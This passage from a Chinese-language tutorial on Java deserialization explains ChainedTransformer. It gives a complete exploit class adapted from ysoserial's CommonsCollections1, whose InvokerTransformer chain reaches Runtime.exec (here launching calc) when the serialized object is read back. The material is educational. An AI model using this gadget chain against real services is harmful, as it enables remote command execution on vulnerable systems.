 ```java
}
```

`ChainedTransformer` 在反序列化漏洞利用中非常重要，因为它允许攻击者构建一条对象链，每个链环执行特定的恶意操作，最终实现目标操作。

## 通过Transformer构造调用链

这里是ysoserial中的代码，我们直接改一下拿来用，以方便调试

```java
public class CommonsCollections1 {
    static String serialFileName = "commons-collections1.ser";

    public static void main(String[] args) throws Exception {
        cc1bySerial();
        verify();
    }
    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Transformer chain = (Transformer) ois.readObject();
        chain.transform(1);
    }

    public static void cc1bySerial() throws Exception {
        String execArgs = "calc";
        // 这一段是ysoserial中的CommonsCollections代码
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{ new ConstantTransformer(1) });
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{execArgs}),
                new ConstantTransformer(1) };
        // 下边是自己加的代码，是为了调试
        Class<?> transformer = Class.forName(ChainedTransformer.class.getName());
        Field iTransformers = transformer.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);

        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(transformerChain);
        oos.flush();
        oos.close();
        fos.close();
    }
}
```
